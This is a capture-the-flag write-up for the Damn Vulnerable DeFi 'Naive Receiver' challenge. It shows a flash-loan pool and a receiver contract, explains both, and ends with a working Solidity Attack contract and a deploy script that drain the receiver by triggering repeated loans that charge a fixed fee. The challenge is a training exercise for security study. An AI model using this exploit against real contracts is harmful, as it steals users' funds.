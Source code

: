 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/2.png">

# Target Contract Review

Given contracts.

**FlashLoanReceiver.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```
This contract is a Flash Loan receiver, which means it can borrow funds temporarily from a lending pool and execute actions with those funds within a single transaction.

`onFlashLoan()` : This function is the callback function that is called when the flash loan is executed. It takes the flash loan details as parameters: the address of the token being borrowed, the amount of the loan, the fee charged by the lending pool, and additional data.

The function first checks if the caller of the function is the lending pool. If not, it reverts the transaction to prevent unauthorized access. Next, it checks if the token being borrowed is ETH. If not, it reverts the transaction as this contract only supports borrowing ETH.

The `_executeActionDuringFlashLoan` function is a placeholder internal function that can be overridden by inheriting contracts to define the actions to be performed with the borrowed funds. After executing the actions, the contract transfers the borrowed amount plus the fee back to the lending pool using the `SafeTransferLib.safeTransferETH` function.

The contract also includes a `receive()` function that allows the contract to receive ETH deposits.

**NaiveReceiverLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

The NaiveReceiverLenderPool contract is a flash loan pool that allows users to borrow ETH using the flash loan mechanism.

`maxFlashLoan()` : It returns the maximum amount that can be borrowed in a flash loan, while the flashFee function calculates the fee to be charged for a flash loan.

`flashFee()` : It returns the fee that needs to be paid for a flash loan. In this case, it returns a fixed fee of 1 ETH.

`flashLoan()` : It provides the flash loan functionality. It takes the borrower's address, the token to be borrowed (in this case, only ETH is supported), the amount to be borrowed, and any additional data required by the borrower.

Inside the function, it first checks if the token is supported (only ETH is supported in this case). It then transfers the requested amount of ETH to the borrower's address. After that, it calls the borrower's onFlashLoan function, passing the necessary parameters. If the borrower's callback function returns the CALLBACK_SUCCESS value, it checks if the contract's balance is greater than or equal to the initial balance plus the fixed fee. If not, it reverts the transaction.


The `receive()` function is a fallback function that allows the contract to receive ETH deposits.

Overall, this contract provides a basic implementation of a flash loan provider, allowing users to borrow ETH from the contract as long as it is returned within the same transaction.

Challenge's message:

> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH. A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
Take all ETH out of the user’s contract. If possible, in a single transaction.

# Suberting

When we look


```solidity
pragma solidity ^0.8.0;

import "../naive-receiver/NaiveReceiverLenderPool.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attack {
    constructor(address payable _pool, address payable _receiver){
        NaiveReceiverLenderPool pool = NaiveReceiverLenderPool(_pool);
        address ETH = pool.ETH();
        for(uint256 i=0; i<10; i++){
            pool.flashLoan(IERC3156FlashBorrower(_receiver), ETH, 1, "0x");
        }
    }
}
```

```powershell
const AttackFactory = await ethers.getContractFactory('Attack', deployer);
attack = await AttackFactory.deploy(pool.address, receiver.address);
```
